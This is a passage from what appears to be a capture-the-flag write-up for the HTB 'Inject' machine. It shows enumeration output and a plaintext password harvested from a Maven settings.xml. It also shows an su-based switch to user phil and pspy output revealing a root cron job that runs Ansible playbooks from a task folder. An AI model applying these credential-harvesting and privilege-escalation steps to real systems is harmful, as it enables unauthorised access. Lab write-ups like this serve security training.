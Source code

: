     ```
    ╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
    -rw-r----- 1 root frank 617 Jan 31 16:55 /home/frank/.m2/settings.xml
    
    ╔══════════╣ Readable files belonging to root and readable by me but not world readable
    -rw-r----- 1 root frank 617 Jan 31 16:55 /home/frank/.m2/settings.xml
    ```

    ```
    ╔══════════╣ Unexpected in /opt (usually empty)
    total 12
    
    drwxr-xr-x  3 root root 4096 Oct 20  2022 .
    drwxr-xr-x 18 root root 4096 Feb  1 18:38 ..
    drwxr-xr-x  3 root root 4096 Oct 20  2022 automation
    ```


    `/home/frank/.m2/settings.xml`
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <servers>
        <server>
        <id>Inject</id>
        <username>phil</username>
        <password>DocPhillovestoInject123</password>
        <privateKey>${user.home}/.ssh/id_dsa</privateKey>
        <filePermissions>660</filePermissions>
        <directoryPermissions>660</directoryPermissions>
        <configuration></configuration>
        </server>
    </servers>
    </settings>
    ```

    `sshpass -p 'DocPhillovestoInject123' ssh phil@inject.htb` ... it does not work!

    In the `/etc/ssh/sshd_config` file there is `DenyUsers phil` so I can only login with `su - phil`.

<br><br>

## Privesc root

- I monitor processes with `pspy64`

    ```
    2023/04/25 18:46:01 CMD: UID=0     PID=70651  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/ 
    2023/04/25 18:46:01 CMD: UID=0     PID=70650  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/ev.yml /opt/automation/tasks/playbook_1.yml 
    2023/04/25 18:46:01 CMD: UID=0     PID=70649  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml 
    2023/04/25 18:46:01 CMD: UID=0     PID=70655  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
    2023/04/25 18:46:01 CMD: UID=0     PID=70653  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/ev.yml 
    2023/04/25 18:46:01 CMD: UID=0     PID=70657  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
    ```
